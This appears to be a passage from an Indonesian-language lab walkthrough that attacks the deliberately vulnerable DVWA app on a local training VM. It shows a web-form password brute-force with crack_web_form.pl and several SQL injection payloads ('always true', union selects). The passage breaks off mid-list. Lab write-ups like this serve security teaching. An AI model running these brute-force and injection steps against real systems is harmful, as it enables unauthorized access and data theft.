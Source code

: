### Lesson 5: Using Tamper Data with crack_web_form.pl

1. Enable add on Tamper Data pada firefox di Backtrack
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/9.PNG)

2. Buka Halaman DVWA dengan firefox di Backtrack
3. Start Add on Tamper Data (Firefox->Tools->Tamper Data -> STart Tamper)

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/10.PNG)
4. Login dengan akun username : admin dan password : password pada halaman DVWA
5. AKan muncul notifikasi Sumbit tamper data. Uncheck textbox dan klik submit

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/11.PNG)

6. Copy data POSTDATA dalam REQUEST HEADER padasalah satu data yang method-nya POST

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/12.PNG)

7. copy data tersebut pada notepad
8. Login sekali lagi dengan username dan password yang salah
9. AKan muncul tulisan Login FAiled . masukkan tulisan ini pada notepad sebelumnya bersamaan dengan data POSTDATA
10. Buat direktory pentest/password/cwf
11. download http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson5/cwf.tar.gz , masukkan dalam folder tersebut
12. JALankan perintah-perintah berikut secara berurutan
```
    cd /pentest/passwords/cwf
    ls -l
    tar xovfz cwf.tar.gz
    chmod 700 crack_web_form.pl
```
13. Jalankan perintah :
```
./crack_web_form.pl -U admin -P password.txt -http "10.0.1.100/dvwa/login.php" -data "username=USERNAME&password=PASSWORD&Login=Login" -M "Login failed"
```
Ket: 10.0.1.100->IP metasploitable

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/13.PNG)
### Lesson 6: Manual SQL Injection, John the Ripper

1. Login KE DVWA. Buka menu SQL Injection
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/14.PNG)
2. Skenario Basic Injection
Masukkan perintah berikut di kolom SQL Injection
```
1
```
3. Skenario Always True
Masukkan perintah berikut di kolom SQL Injection
```
%' or '0'='0
```
4. Menampilkan versi Database
Masukkan perintah berikut di kolom SQL Injection
```
%' or 0=0 union select null, version() #
```
5. Menampilkan User Database 
Masukkan perintah berikut di kolom SQL Injection
```
%' or 0=0 union select null, user() #
```
6. Menampilkan Nama Database